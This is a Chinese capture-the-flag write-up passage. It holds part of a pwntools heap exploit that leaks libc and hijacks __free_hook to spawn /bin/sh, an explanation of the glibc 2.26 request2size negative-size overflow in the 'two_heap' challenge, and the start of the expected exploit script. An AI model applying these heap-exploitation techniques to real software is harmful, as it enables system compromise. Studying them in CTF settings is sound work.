 ```python
    payload += "\x08"          # overwrite last byte of _IO_write_base to point to libc address
    add(0x38,payload)
    libc.address = u64(p.recv(6)+'\x00\x00')-0x3ed8b0
    success("libc.address-->"+hex(libc.address))
    add(0x18,p64(0)+p64(libc.sym["__free_hook"]-8))
    add(0x7f,"/bin/sh\x00"+p64(libc.sym["system"]))
    delete()
    p.interactive()

while True:
    try:
        p = bin.process(env={"LD_PRELOAD":libc.path})
        pwn(p)
    except Exception as e:
        p.close()
```

<a name="two_heap"></a>
### two_heap

> 出题人：0xd5f & zoniony
> 解题人数：7
> 最终分数：769


先给师傅们说声对不起,由于上线前临时改动了一下,文件的ld路径是我测试环境的,忘记修改了导致师傅们运行不起来

这道题的本意是想考察libc2.26中malloc存在的负数溢出的漏洞,

```c
# glibc2.26/malloc/malloc.c 1226
#define request2size(req)                                         \
  (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)  ?             \
   MINSIZE :                                                      \
   ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)
```

当req在区间[-0x10,0]时存在溢出,可以申请到0x20的chunk,因此可以申请到0x20size的chunk有`-0x10`,`0`,`0x10`

⬇️以下内容可以不看

这里啰嗦几句,本来的size是`0x10`对齐,为了防止负数导致堆溢出所以不能向chunk中写数据,但是又必须要完成两次写(一次hook,一次onegadget),所以想了两个办法解决:第一种就是把`0x10`对齐改成`0x8`对齐,这样0x10和`0x18`都可以写数据,第二种是把`read`的size写死成固定值.emmm可能题出到晚上2点多脑子抽了选了第一种方案,遗漏了0x8,没能让师傅们体验到高质量的题目十分抱歉

预期解exp如下

```python
#!/usr/bin/env python2

from pwn import *
context(log_level='debug', arch='amd64', os='linux', aslr=True, terminal=['tmux', 'splitw', '-h'])

exe  = './two_heap'
lib  = '/opt/glibc/libc226/lib/libc-2.26.so'
ip   = '47.104.89.129'
port = 10002
elf  = ld(exe, lib)
libc = ELF(lib) if lib else elf.libc

def dbg(script=''):
    attach(io, gdbscript=script)

# ------------------------------------------------

def choice(idx):
    io.recvuntil('Your choice:')
    io.sendline(str(idx))
```